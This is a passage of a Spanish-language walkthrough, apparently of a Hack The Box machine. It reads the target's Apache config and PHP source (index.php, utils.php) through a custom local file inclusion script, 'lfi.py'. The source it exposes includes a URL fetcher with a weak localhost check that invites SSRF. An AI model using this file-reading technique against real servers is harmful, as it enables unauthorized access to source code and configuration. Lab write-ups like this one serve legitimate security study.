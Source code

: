 ```bash
        </LocationMatch>

        ErrorDocument 429 "Rate Limit Exceeded"

        <Directory /var/www/image>
                Deny from all
                Allow from 127.0.0.1
                Options Indexes FollowSymLinks
                AllowOverride All
                Require all granted
        </DIrectory>

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

Vemos que el subdominio `image.haxtables.htb` está en el directorio `/var/www/image`.
Buscando el `index.php`, vemos que incluye `utils.php`

```php
python3 lfi.py /var/www/image/index.php                     
<?php 

include_once 'utils.php';

include 'includes/coming_soon.html';

?>
```


```php
python3 lfi.py /var/www/image/utils.php
<?php

// Global functions

function jsonify($body, $code = null)
{
    if ($code) {
        http_response_code($code);
    }

    header('Content-Type: application/json; charset=utf-8');
    echo json_encode($body);

    exit;
}

function get_url_content($url)
{
    $domain = parse_url($url, PHP_URL_HOST);
    if (gethostbyname($domain) === "127.0.0.1") {
        echo jsonify(["message" => "Unacceptable URL"]);
    }

    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTP);
    curl_setopt($ch, CURLOPT_REDIR_PROTOCOLS, CURLPROTO_HTTPS);
    curl_setopt($ch,CURLOPT_CONNECTTIMEOUT,2);
    curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
    $url_content =  curl_exec($ch);
    curl_close($ch);
```